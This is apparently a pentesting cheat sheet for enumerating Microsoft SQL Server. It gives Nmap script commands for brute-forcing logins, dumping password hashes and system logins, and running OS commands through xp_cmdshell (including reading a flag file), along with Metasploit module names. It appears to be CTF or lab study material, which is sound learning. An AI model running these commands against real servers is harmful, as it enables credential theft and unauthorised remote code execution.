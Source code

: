 # Enumeration: MSSQL
> MSSQL is Microsoft's version of an SQL database.

- Default MSSQL Port: `1433`

## Contents
- [Nmap Scripts](#nmap-scripts)
  - [ms-sql-info](#ms-sql-info)
  - [ms-sql-ntlm-info](#ms-sql-ntlm-info)
  - [ms-sql-brute](#ms-sql-brute)
  - [ms-sql-empty-password](#ms-sql-empty-password)
  - [ms-sql-query](#ms-sql-query)
  - [ms-sql-dump-hashes](#ms-sql-dump-hashes)
  - [ms-sql-xp-cmdshell](#ms-sql-xp-cmdshell)
- [MetaSploit](#metasploit)
- [Resources](#resources)

## Nmap Scripts

### ms-sql-info
> This gives you a little more info than a standard nmap version scan (e.g., patches applied: true|false).
```
nmap -p 1433 --script ms-sql-info [target ip]
```

### ms-sql-ntlm-info
> This gives us the Target_Name and other similar info
```
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 [target ip]
```

### ms-sql-brute
> This gives us some login creds (usernames/pwds)
```
nmap [target ip] -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
```

### ms-sql-empty-password
> Check for usernames with no password
```
nmap [target ip] -p 1433 --script ms-sql-empty-password
```

### ms-sql-query
```
nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" [target ip] -oN output.txt
```
- Note: The query statement is the example given in the Nmap [NSE documentation](https://nmap.org/nsedoc/scripts/ms-sql-query.html).
  - You could try [syslogins](https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql?view=sql-server-ver16) or [sysusers](https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysusers-transact-sql?view=sql-server-ver16) or etc.
- Run a query using some of the info we've found so far.
- The output is a db dump, so it looks like a mess on your screen. That's why we did the -oN  (output Normal) to a text file.
- Open that text file in a text editor with monospace font
- Lots of goodies there about system and user logins. Enumerate. 

### ms-sql-dump-hashes
> This is good info to enumerate (maybe "pass the hash" later on)
```
nmap [target ip] -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
```

### ms-sql-xp-cmdshell
> Try to run some actual code on the target machine via their mssql instance. If you get a response to the command, you know you can execute code on the remote system.
```
nmap [target ip] -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"
```
> Read a file on the remote system
```
nmap [target ip] -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
```

## MetaSploit
> Modules to Enumerate MSSQL

- `mssql_enum` : enumerate MSSQL configuration
- `mssql_enum_sql_logins` : enumerate all MSSQL logins
- `mssql_login` : discover valid users and their passwords
- `mssql_exec` : execute a command on the target machine
- `mssql_enum_domain_accounts` : enumerate all available system users

---

## Resources
Two articles that can guide in further exploration of a MSSQL Server:
1. [HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
2. [PenTest Monkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

